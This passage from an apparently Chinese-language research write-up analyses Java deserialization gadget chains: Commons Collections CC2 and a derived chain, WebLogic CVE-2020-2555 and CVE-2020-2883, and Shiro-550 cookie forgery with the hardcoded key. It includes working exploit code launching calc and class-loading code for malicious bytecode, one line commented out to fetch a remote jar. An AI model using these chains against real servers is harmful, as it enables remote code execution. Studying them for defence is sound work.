    queue[k] = x;
}
private void siftDownComparable(int k, E x) {
    Comparable<? super E> key = (Comparable<? super E>)x;
    int half = size >>> 1;        // loop while a non-leaf
    while (k < half) {
        int child = (k << 1) + 1; // assume left child is least
        Object c = queue[child];
        int right = child + 1;
        if (right < size &&
            ((Comparable<? super E>) c).compareTo((E) queue[right]) > 0)
            c = queue[child = right];
        if (key.compareTo((E) c) <= 0)
            break;
        queue[k] = c;
        k = child;
    }
    queue[k] = key;
}
```

comparator是比较器，当指定comparator时会进入`comparator.compare((E) c, (E) queue[right])`。comparator是Comparator接口对象。

```java
private final Comparator<? super E> comparator;
```

查看其继承关系发现CC包中的TransformingComparator类实现了Comparator接口



TransformingComparator的compare()方法

```java
public int compare(I obj1, I obj2) {
    O value1 = this.transformer.transform(obj1);
    O value2 = this.transformer.transform(obj2);
    return this.decorated.compare(value1, value2);
}
```

嘿，这不刚好是之前的transform任意方法反射调用吗！this.transformer承载的是InvokerTransformer类，反射调用之前的newTransformer()就直接RCE了。构造payload

```java
public Queue<Object> getObject(final String command) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command);
    // mock method name until armed
    final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);

    // create queue with numbers and basic comparator
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
    // stub data for replacement later
    queue.add(1);
    queue.add(1);

    // switch method called by comparator
    Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");

    // switch contents of queue
    final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
    queueArray[0] = templates;
    queueArray[1] = 1;

    return queue;
}
```

比较疑惑的一点应该在`new InvokerTransformer("toString", new Class[0], new Object[0])`，这里为什么要先用toString，然后在反射修改为newTransformer？因为如果直接用newTransformer序列化时会报错`The method 'newTransformer' on 'class java.lang.Integer' does not exist`，所以ysoserial采用了先用toString转为字符串与数字1作比较，然后反射修改过来，很巧妙。


小结：

```java
/*
    Gadget chain:
        ObjectInputStream.readObject()
            PriorityQueue.readObject()
                ...
                    TransformingComparator.compare()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.exec()
 */
```

### 两种链的衍生

CC2采用TemplatesImpl类通过恶意字节码初始化的形式RCE，CC5通过链式调用一步一步反射实现RCE。但是本质其实还是反射，两种链改一改还能再衍生一种链。

```java
package org.chabug.demo;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.chabug.util.Serializables;
import ysoserial.payloads.util.Reflections;

import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class MyCC {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                // 使用Runtime.class.getMethod()反射调用Runtime.getRuntime()
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                // invoke()调用Runtime.class.getMethod("getRuntime").invoke(null)
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                // 调用exec("calc")
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"})
        };
        Transformer chain = new ChainedTransformer(transformers);

        Class clazz = ChainedTransformer.class;
        Field iTransformers = clazz.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);

        Transformer[] transformers1 = new Transformer[]{
                new InvokerTransformer("toString", new Class[]{}, new Object[]{})
        };
        ChainedTransformer chain1 = new ChainedTransformer(transformers1);

        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(chain1));
        queue.add("1");
        queue.add("1");
        iTransformers.set(chain1, transformers);

        final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
        queueArray[0] = Runtime.class;
        queueArray[1] = 1;


        byte[] bytes = Serializables.serializeToBytes(queue);
        Serializables.deserializeFromBytes(bytes);
    }
}
```

其实就是把CC5的前半段和CC2的后半段拼一起，用CC5链式调用执行命令，用CC2触发toString。

## Java ClassLoader 加载类的几种方法

> Java是编译型语言，所有的Java代码都需要被编译成字节码来让JVM执行。Java类初始化时会调用 `java.lang.ClassLoader` 加载类字节码，ClassLoader会调用defineClass方法来创建一个 `java.lang.Class` 类实例。

ClassLoader类是一个抽象类，并不能直接拿来用，jdk中有几个具体实现类，比如DefiningClassLoader、BCEL ClassLoader、GroovyClassLoader、URLClassLoader、Jython中PythonInterpreter的org.python.core.BytecodeLoader等等，还可以自己实现ClassLoader。


本文主要讲解三种URLClassLoader、BytecodeLoader和自己定义ClassLoader去从字节码中加载类。


### URLClassLoader

```java
package org.chabug.loader;

import java.net.URL;
import java.net.URLClassLoader;

public class URLClassLoaderDemo {
    public static void main(String[] args) throws Exception {
//        URL url = new URL("https://baidu.com/cmd.jar");   // 也可以加载远程jar
        URL url = new URL("file:///d:/calc.jar");

        // 创建URLClassLoader对象，并加载远程jar包
        URLClassLoader ucl = new URLClassLoader(new URL[]{url});
        
        // 通过URLClassLoader加载jar包
        Class<?> aClass = ucl.loadClass("org.chabug.demo.Calc");
        aClass.newInstance();
    }
}
```

jar包制作命令为`jar cvf calc.jar Calc.class`，恶意代码直接写在static代码块中，新建类实例newInstance()时会自动执行。



成功弹出计算器



### BytecodeLoader

```java
package org.chabug.loader;

import org.python.util.PythonInterpreter;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;

public class BytecodeLoaderLoader {
    public static void main(String[] args) throws Exception {
        String className = "org.chabug.demo.Calc";
        byte[] bytes = getBytesByFile("E:\\code\\java\\JavaSerialize\\target\\classes\\org\\chabug\\demo\\Calc.class");
        String classBytes = "";
        for (byte b : bytes) {
            classBytes += String.format("%s%s", b, ",");
        }
        String s = String.format("from org.python.core import BytecodeLoader;\n" +
                "from jarray import array\n" +
                "myList = [%s]\n" +
                "bb = array( myList, 'b')\n" +
                "BytecodeLoader.makeClass(\"%s\",None,bb).getConstructor([]).newInstance([]);", classBytes, className);
        PythonInterpreter instance = PythonInterpreter.class.getConstructor(null).newInstance();
        instance.exec(s);
    }

    public static byte[] getBytesByFile(String pathStr) {
        File file = new File(pathStr);
        try {
            FileInputStream fis = new FileInputStream(file);
            ByteArrayOutputStream bos = new ByteArrayOutputStream(1000);
            byte[] b = new byte[1000];
            int n;
            while ((n = fis.read(b)) != -1) {
                bos.write(b, 0, n);
            }
            fis.close();
            byte[] data = bos.toByteArray();
            bos.close();
            return data;
        } catch (Exception e) {
            e.printStackTrace();
        }
        return null;
    }
}
```




### 自定义ClassLoader



```java
package org.chabug.loader;

import static org.chabug.loader.BytecodeLoaderLoader.getBytesByFile;

public class MyLoader extends ClassLoader {
    public static String className = "org.chabug.demo.Calc";
    public static byte[] bytes = getBytesByFile("E:\\code\\java\\JavaSerialize\\target\\classes\\org\\chabug\\demo\\Calc.class");

    public static void main(String[] args) throws Exception {
        new MyLoader().loadClass(className).newInstance();
    }

    @Override
    public Class<?> findClass(String name) throws ClassNotFoundException {
        // 只处理TestHelloWorld类
        if (name.equals(className)) {
            // 调用JVM的native方法定义TestHelloWorld类
            return defineClass(className, bytes, 0, bytes.length);
        }

        return super.findClass(name);
    }
}
```


## WebLogic CVE-2020-2555 CVE-2020-2883 RCE

这两个洞和CC链的形式很像，只是gadget的构造不一样。先来看最早爆出来的CVE-2020-2555

### CVE-2020-2555

问题出在com.tangosol.util.extractor.ReflectionExtractor#extract

```java
public Object extract(Object oTarget) {
    if (oTarget == null) {
        return null;
    } else {
        Class clz = oTarget.getClass();

        try {
            Method method = this.m_methodPrev;
            if (method == null || method.getDeclaringClass() != clz) {
                this.m_methodPrev = method = ClassHelper.findMethod(clz, this.getMethodName(), this.getClassArray(), false);
            }
            return method.invoke(oTarget, this.m_aoParam);
        } catch (NullPointerException var4) {
            throw new RuntimeException(this.suggestExtractFailureCause(clz));
        } catch (Exception var5) {
            throw ensureRuntimeException(var5, clz.getName() + this + '(' + oTarget + ')');
        }
    }
}
```

和CC链的transform()一模一样，所以也需要寻找一个和ChainedTransformer的类

```java
public E extract(Object oTarget) {
    ValueExtractor[] aExtractor = this.getExtractors();
    int i = 0;

    for(int c = aExtractor.length; i < c && oTarget != null; ++i) {
        oTarget = aExtractor[i].extract(oTarget);
    }

    return oTarget;
}
```

this.getExtractors()源于其父类AbstractCompositeExtractor

```java
protected ValueExtractor[] m_aExtractor;
public ValueExtractor[] getExtractors() {
    return this.m_aExtractor;
}
```

而com.tangosol.util.filter.LimitFilter#toString中会触发extract()

```java
public String toString() {
    StringBuilder sb = new StringBuilder("LimitFilter: (");
    sb.append(this.m_filter).append(" [pageSize=").append(this.m_cPageSize).append(", pageNum=").append(this.m_nPage);
    if (this.m_comparator instanceof ValueExtractor) {
        ValueExtractor extractor = (ValueExtractor)this.m_comparator;
        sb.append(", top=").append(extractor.extract(this.m_oAnchorTop)).append(", bottom=").append(extractor.extract(this.m_oAnchorBottom));
    } else if (this.m_comparator != null) {
        sb.append(", comparator=").append(this.m_comparator);
    }

    sb.append("])");
    return sb.toString();
}
```

关注这几个

```java
ValueExtractor extractor = (ValueExtractor)this.m_comparator;
extractor.extract(this.m_oAnchorTop)
extractor.extract(this.m_oAnchorBottom)
```

查看该类字段

```java
private Comparator m_comparator;
private Object m_oAnchorTop;
private Object m_oAnchorBottom;
```

m_comparator是Comparator类型的，而ChainedTransformer实现了这个接口。


所以m_comparator可以放chainedExtractor对象，然后m_oAnchorTop传入Runtime.class就行了。

小结：使用BadAttributeValueExpException触发LimitFilter的toString()，然后ChainedExtractor链式调用extract()执行Runtime

```java
package org.chabug.cve;

import com.tangosol.util.extractor.ChainedExtractor;
import com.tangosol.util.extractor.ReflectionExtractor;
import com.tangosol.util.filter.LimitFilter;
import org.chabug.util.Serializables;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;

public class CVE_2020_2555 {
    public static void main(String[] args) throws Exception {
        ReflectionExtractor extractor1 = new ReflectionExtractor(
                "getMethod",
                new Object[]{"getRuntime", new Class[0]}

        );

        // get invoke() to execute exec()
        ReflectionExtractor extractor2 = new ReflectionExtractor(
                "invoke",
                new Object[]{null, new Object[0]}

        );

        // invoke("exec","calc")
        ReflectionExtractor extractor3 = new ReflectionExtractor(
                "exec",
                new Object[]{new String[]{"cmd", "/c", "calc"}}
        );

        ReflectionExtractor[] extractors = {
                extractor1,
                extractor2,
                extractor3,
        };

        ChainedExtractor chainedExtractor = new ChainedExtractor(extractors);
        LimitFilter limitFilter = new LimitFilter();

        //m_comparator
        Field m_comparator = limitFilter.getClass().getDeclaredField("m_comparator");
        m_comparator.setAccessible(true);
        m_comparator.set(limitFilter, chainedExtractor);

        //m_oAnchorTop
        Field m_oAnchorTop = limitFilter.getClass().getDeclaredField("m_oAnchorTop");
        m_oAnchorTop.setAccessible(true);
        m_oAnchorTop.set(limitFilter, Runtime.class);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, limitFilter);

        // serialize

        byte[] buf = Serializables.serializeToBytes(badAttributeValueExpException);
        Serializables.deserializeFromBytes(buf);

    }

}
```

### CVE-2020-2883

2883其实就是我们之前从两条CC链衍生出来的那条链

```java
package org.chabug.cve;

import com.tangosol.util.ValueExtractor;
import com.tangosol.util.comparator.ExtractorComparator;
import com.tangosol.util.extractor.ChainedExtractor;
import com.tangosol.util.extractor.ReflectionExtractor;
import org.chabug.util.Serializables;
import ysoserial.payloads.util.Reflections;

import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CVE_2020_2883 {
    public static void main(String[] args) throws Exception {
        ReflectionExtractor reflectionExtractor1 = new ReflectionExtractor("getMethod", new Object[]{"getRuntime", new Class[]{}});
        ReflectionExtractor reflectionExtractor2 = new ReflectionExtractor("invoke", new Object[]{null, new Object[]{}});
        ReflectionExtractor reflectionExtractor3 = new ReflectionExtractor("exec", new Object[]{new String[]{"cmd.exe", "/c", "calc"}});

        ValueExtractor[] valueExtractors = new ValueExtractor[]{
                reflectionExtractor1,
                reflectionExtractor2,
                reflectionExtractor3,
        };

        Class clazz = ChainedExtractor.class.getSuperclass();
        Field m_aExtractor = clazz.getDeclaredField("m_aExtractor");
        m_aExtractor.setAccessible(true);

        ReflectionExtractor reflectionExtractor = new ReflectionExtractor("toString", new Object[]{});
        ValueExtractor[] valueExtractors1 = new ValueExtractor[]{
                reflectionExtractor
        };

        ChainedExtractor chainedExtractor1 = new ChainedExtractor(valueExtractors1);

        PriorityQueue queue = new PriorityQueue(2, new ExtractorComparator(chainedExtractor1));
        queue.add("1");
        queue.add("1");
        m_aExtractor.set(chainedExtractor1, valueExtractors);

        Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
        queueArray[0] = Runtime.class;
        queueArray[1] = "1";

        byte[] buf = Serializables.serializeToBytes(queue);
    }
}
```
整个利用链
```java
/*
 * readObject:797, PriorityQueue (java.util)
 * heapify:737, PriorityQueue (java.util)
 * siftDown:688, PriorityQueue (java.util)
 * siftDownUsingComparator:722, PriorityQueue (java.util)
 * compare:71, ExtractorComparator (com.tangosol.util.comparator)
 * extract:81, ChainedExtractor (com.tangosol.util.extractor)
 * extract:109, ReflectionExtractor (com.tangosol.util.extractor)
 * invoke:498, Method (java.lang.reflect)
 */
```

两个CVE的前半部分是一样的，都是通过ChainedExtractor构造到Runtime的chain。2555中用的是BadAttributeValueExpException，2883用的PriorityQueue。

## Shiro-550 rememberMe 硬编码导致的反序列化RCE

首先要知道shiro是一个用来做身份验证的框架，其原理是基于servlet的filter进行的。shiro库在web.xml中定义了ShiroFilter，作用范围是当前目录下所有的url。



cookie的处理在`CookieRememberMeManager`类，继承了`AbstractRememberMeManager`，在`AbstractRememberMeManager`中硬编码了加密密钥`DEFAULT_CIPHER_KEY_BYTES`



通过AES CBC对称加密，然后org.apache.shiro.io.DefaultSerializer进行序列化和反序列化。



掌握其加密算法和硬编码的key，即可构造恶意对象来进行反序列化RCE。加密算法如下

```java
package org.chabug.util;

import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;

import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;

public class EncryptUtil {
    private static final String ENCRY_ALGORITHM = "AES";
    private static final String CIPHER_MODE = "AES/CBC/PKCS5Padding";
    private static final byte[] IV = "aaaaaaaaaaaaaaaa".getBytes();     // 16字节IV

    public EncryptUtil() {
    }

    public static byte[] encrypt(byte[] clearTextBytes, byte[] pwdBytes) {
        try {
            SecretKeySpec keySpec = new SecretKeySpec(pwdBytes, ENCRY_ALGORITHM);
            Cipher cipher = Cipher.getInstance(CIPHER_MODE);
            IvParameterSpec iv = new IvParameterSpec(IV);
            cipher.init(1, keySpec, iv);
            byte[] cipherTextBytes = cipher.doFinal(clearTextBytes);
            return cipherTextBytes;
        } catch (NoSuchPaddingException var6) {
            var6.printStackTrace();
        } catch (NoSuchAlgorithmException var7) {
            var7.printStackTrace();
        } catch (BadPaddingException var8) {
            var8.printStackTrace();
        } catch (IllegalBlockSizeException var9) {
            var9.printStackTrace();
        } catch (InvalidKeyException var10) {
            var10.printStackTrace();
        } catch (Exception var11) {
            var11.printStackTrace();
        }

        return null;
    }

    public static String shiroEncrypt(String key, byte[] objectBytes) {
        byte[] pwd = Base64.decode(key);
        byte[] cipher = encrypt(objectBytes, pwd);

        assert cipher != null;

        byte[] output = new byte[pwd.length + cipher.length];
        byte[] iv = IV;
        System.arraycopy(iv, 0, output, 0, iv.length);
        System.arraycopy(cipher, 0, output, pwd.length, cipher.length);
        return Base64.encode(output);
    }
}
```

用CC5生成rememberMe cookie

```java
package org.chabug.shiro;

import org.chabug.util.EncryptUtil;
import org.chabug.util.Serializables;
import ysoserial.payloads.CommonsCollections5;

public class Shiro550 {
    public static void main(String[] args) throws Exception {
        CommonsCollections5 cc = new CommonsCollections5();
        Object calc = cc.getObject("calc");
        byte[] bytes = Serializables.serializeToBytes(calc);
        String key = "kPH+bIxk5D2deZiIxcaaaA==";
        String rememberMe = EncryptUtil.shiroEncrypt(key, bytes);
        System.out.println(rememberMe);
    }
}
```

bp发包



目标上弹出计算器



## WebLogic + Shiro 反序列化一键注册filter内存shell

接下来就是正题了，先说下整体思路：

